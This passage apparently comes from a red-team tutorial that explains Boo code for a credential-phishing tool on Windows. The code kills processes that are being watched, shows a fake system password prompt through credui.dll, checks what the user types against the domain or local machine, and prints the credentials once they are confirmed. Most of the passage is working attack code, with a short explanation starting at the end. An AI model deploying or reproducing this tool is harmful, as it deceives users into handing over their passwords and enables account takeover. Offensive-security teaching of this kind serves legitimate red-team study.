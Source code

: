 ```python
            _validatingPassword = true
            print "[*] PROCESS SPAWNED: $(name)[$(id)]"    
            Process.GetProcessById(id).Kill()
            clearName = CultureInfo.CurrentCulture.TextInfo.ToTitleCase(name.Replace('.exe',''))
            try:
                passwordAttempt as string = PromptForPassword(currentUser, clearName)
                if passwordAttempt:
                    print "[*] VALIDATING PASSWORD: $(passwordAttempt)" 
                    context as PrincipalContext
                    try:
                        context = PrincipalContext(ContextType.Domain)
                    except e as System.DirectoryServices.AccountManagement.PrincipalServerDownException:
                        context = PrincipalContext(ContextType.Machine)
                    validCredentials as bool = context.ValidateCredentials(currentUser, passwordAttempt)
                    if validCredentials:
                        validPassword = passwordAttempt
                        startWatch.Stop()
                        break
                    else:
                        print "[-] INVALID PASSWORD: $(passwordAttempt)"
                else:
                    print "[-] EMPTY PASSWORD"
            except:
                pass
            ensure:
                _validatingPassword = false

        if not instance['Name'] in processes_to_watch:
            print "[-] IGNORING PROCESS: $(name)"

        break unless not validPassword      

    print "\n[+] VALID CREDENTIALS FOUND: $(currentUser):$(validPassword)\n"
    print "[*] BYE!"
```

Let's try to explain the code... First we need to import what we need:

```python
import System
import System.Runtime.InteropServices
import System.Management from System.Management
import System.Text
import System.Diagnostics
import System.Globalization
from System.DirectoryServices.AccountManagement import PrincipalContext, ContextType
```

Since we're going to use `credui.dll` we need to import the method from the dll, yes we can do it with Boo!
